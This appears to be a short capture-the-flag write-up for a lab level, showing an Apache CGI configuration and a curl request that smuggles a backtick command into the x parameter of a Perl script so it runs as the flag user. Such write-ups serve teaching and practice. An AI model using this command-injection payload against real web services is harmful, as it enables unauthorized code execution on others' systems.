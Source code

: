 # Level 04

level04.pl is a CGI script hosted on apache2 and listening on port 4747. It prints the value of the x parameter.

```sh
$ cat /etc/apache2/sites-enabled/level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
```

From this configuration file, we can see that this CGI is executed by flag04. So if we make this script execute getflag, we win.

```sh
$ curl "localhost:4747?x=\`getflag\`"
```
